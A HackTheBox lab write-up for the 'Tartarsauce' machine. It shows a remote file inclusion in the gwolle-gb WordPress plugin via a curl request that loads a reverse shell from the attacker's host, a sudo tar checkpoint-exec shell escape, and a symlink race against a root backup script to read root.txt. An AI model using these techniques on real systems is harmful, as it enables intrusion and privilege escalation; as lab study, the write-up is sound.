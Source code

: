 ```yaml
---
title: Tartarsauce
date: 2022-06-11 
categories: [HackTheBox, Medium]
tags: [writeup, linux]     # TAG names should always be lowercase
author: Derrick
---
```


![](https://i.imgur.com/EvyXmVu.png)

Tartarsauce is an odd box because I was never actually able to gain a root shell on it. The box deals a lot with using tar to pivot or escelate privileges. Its probably where the box got its name from. The author seemed to have a lot of fun putting little jokes throughout the box.

## Recon

`nmap -sVC 10.10.10.88`
``` 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-09 21:56 EDT
Nmap scan report for tartarsauce.htb (10.10.10.88)
Host is up (0.087s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Landing Page
| http-robots.txt: 5 disallowed entries 
| /webservices/tar/tar/source/ 
| /webservices/monstra-3.0.4/ /webservices/easy-file-uploader/ 
|_/webservices/developmental/ /webservices/phpmyadmin/
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.46 seconds
```


Wpscan Results
```
 [+] gwolle-gb
 | Location: http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/
 | Last Updated: 2022-05-12T09:58:00.000Z
 | Readme: http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 | [!] The version is out of date, the latest version is 4.2.2
 | Found By: Known Locations (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/, status: 200
 | Version: 2.3.10 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
```
> You need to run an aggressive scan to find this pluggin
{: .prompt-warning }

Upon research into gwolle-gb, RFI is possible. In order to perform, have a file, preferably a php reverse shell, named wp-load.php and set it to root directory of your server. Run the curl command with the listener and reverse shell set up properly.

```
curl http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.19/
```

## User

Run `sudo -l` to discover:
```
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```

[GTFObins](https://gtfobins.github.io/gtfobins/tar/#sudo) this

`sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

## Root

Interesting pspy output:
```
2022/06/11 01:14:10 CMD: UID=0    PID=28941  | /bin/bash /usr/sbin/backuperer
```

The script

```{bash}
#!/bin/bash

#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------

# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check

# formatting
printbdr()
{
    for n in $(seq 72);
    do /usr/bin/printf $"-";
    done
}
bdr=$(printbdr)

# Added a test file to let us see when the last backup was run
/usr/bin/printf $"$bdr\nAuto backup backuperer backup last ran at : $(/bin/date)\n$bdr\n" > $testmsg

# Cleanup from last time.
/bin/rm -rf $tmpdir/.* $check

# Backup onuma website dev files.
/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &

# Added delay to wait for backup to complete if large files get added.
/bin/sleep 30

# Test the backup integrity
integrity_chk()
{
    /usr/bin/diff -r $basedir $check$basedir
}

/bin/mkdir $check
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi
```

Basically, its backing up the webroot and pauses for 30 sec. After 30 seconds, it checks to see if there has been any changes to the webroot and the archive it just created. Any changes get diffed. Since diff outputs the differences and outputs into a file AND this is run as root, this is essentially root file read.

Within that 30 second gap, remove an existing file and replace it with a symlink to root.txt. To see when the script executes, pay attention to pspy.

Demo

```
www-data@TartarSauce.htb: $ ls 
index.html  robots.txt  webservices
www-data@TartarSauce.htb: $ echo fart > lmao.txt 
rm lmao.txt; ln -s /root/root.txt lmao.txt
www-data@TartarSauce.htb: $ ls
index.html  lmao.txt  robots.txt  webservices
www-data@TartarSauce.htb: $ cat /var/backups/onuma_backup_error.txt
[...]
------------------------------------------------------------------------ 
Integrity Check Error in backup last ran :  Sat Jun 11 01:24:15 EDT 2022
------------------------------------------------------------------------ 
/var/tmp/.b3db02ba045c0199cd5b9959f56dd73c3be1bd5e   
diff -r /var/www/html/lmao.txt /var/tmp/check/var/www/html/lmao.txt
1c1        
< 45e29bf14bc90a46f46d670baadffcab
---
> fart
```

This POC works.
Just add in the `/root/root.txt` file and this should be pwned :)
